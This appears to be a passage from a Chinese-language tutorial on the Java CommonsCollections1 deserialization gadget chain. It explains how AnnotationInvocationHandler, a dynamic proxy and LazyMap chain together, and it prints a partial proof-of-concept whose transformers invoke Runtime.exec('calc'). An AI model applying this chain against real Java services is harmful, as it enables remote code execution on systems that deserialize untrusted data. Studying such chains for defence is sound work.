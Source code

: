 其中的`invoke`方法会调用到`memberValues`的`get`方法，而`memberValues`可通过构造函数赋值为LazyMap，所以能调用到`Invoke`就可以触发，要怎么通过`readObject`方法调用到`invoke`方法呢？可以通过java对象代理。

java提供了`newProxyInstance`创建对象代理的方式：`newProxyInstance(ClassLoader loader,  Class<?>[] interfaces, InvocationHandler h)`，第1个参数是`ClassLoader`，默认即可；第2个参数是我们需要代理的对象集合；第3个参数为实现了`InvocationHandler`接口的实例，里面包含了具体代理的逻
辑，`AnnotationInvocationHandler`类正好实现了`InvocationHandler`和`Serializable`接口，可以作为第3个参数。

被对象代理设置的对象，调用其任意方法时，都会先调用代理类，也就是`InvocationHandler`实例的`invoke`方法。

上方代码`readObject`方法的第23行，在传入的`this.memberValues`有设置对象代理时，调用其任意方法都会触发其代理类的`invoke`方法，代理类可以设置`AnnotationInvocationHandler`，在`invoke`中就可以触发`get`方法了，这样我们打通了整个利用链。

```java
/** ysoserial的Gadget chain
      ObjectInputStream.readObject()
         AnnotationInvocationHandler.readObject()
            Map(Proxy).entrySet()
               AnnotationInvocationHandler.invoke()
                  LazyMap.get()
                     ChainedTransformer.transform()
                        ConstantTransformer.transform()
                        InvokerTransformer.transform()
                           Method.invoke()
                              Class.getMethod()
                        InvokerTransformer.transform()
                           Method.invoke()
                              Runtime.getRuntime()
                        InvokerTransformer.transform()
                           Method.invoke()
                              Runtime.exec()
*/
```

### poc

cc1完整poc如下

```java
public static void main(String[] args) throws Exception {
        Transformer[] transformers = {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{0, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        // 将一条空的fakeTransformers传给ChainedTransformer，避免本地调试时触发命令
        Transformer[] fakeTransformers = new Transformer[] {new
                ConstantTransformer(1)};
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);
        final Map innerMap = new HashMap();
        final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

        // 获取构造函数
        Constructor<?> constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);

        // 创建代理类
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Deprecated.class, lazyMap);
        // 动态代理，创建lazyMap实例
        Map map1 = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), LazyMap.class.getInterfaces(), invocationHandler);
        // 创建被反序列化的AnnotationInvocationHandler类
```